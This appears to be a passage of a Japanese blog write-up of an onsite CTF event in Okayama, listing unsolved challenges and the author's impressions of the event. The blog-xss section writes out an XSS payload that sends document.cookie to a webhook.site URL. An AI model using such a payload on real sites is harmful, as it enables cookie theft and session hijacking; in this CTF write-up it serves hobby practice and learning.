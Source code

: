 
## Execute me reversing 100

実行したらフラグが手に入る

# 解けなかった問題

## blog-xss web 300

`<img src=x onerror=alert()>` が刺さるのを確認して `<img src=x onerror=fetch("webhook.siteのURL?" + document.cookie)>` を書いたけどなんか刺さらず、あれ〜とあれこれしていたが、たまたま刺さらなかったっぽい。

## Static analysis 1 reversing 200

最後に取り組んでいた。 `strings ex02 | grep ctf` を打ったらflagが出たのだけど、コピペがギリ時間に間に合わず...

## Static analysis 2 reversing 300

開けてない

# 感想

- 中国地方でCTFイベントがあるのはとっても嬉しいです。広島から岡山行くくらいなら全然行きますって感じでした。
- オンサイトCTF楽しいですね。内容よりもスピードCTFをオンサイトでやる時の生きている感覚みたいなものが好きなのかもしれないです。
- 岡山大の方とお話しできて良かったです。岡山はCTFがとても強い方がいたのでその影響でCTFがちょっと盛り上がっているらしい。
- 会場にPQCやっている人がいたっぽくて、うわ〜暗号ガチ勢にご挨拶したかったという気持ちです。

岡山楽しかったです。CTFモチベ上がったので暗号の本挫折したやつ読み直そうかな...

以下写真
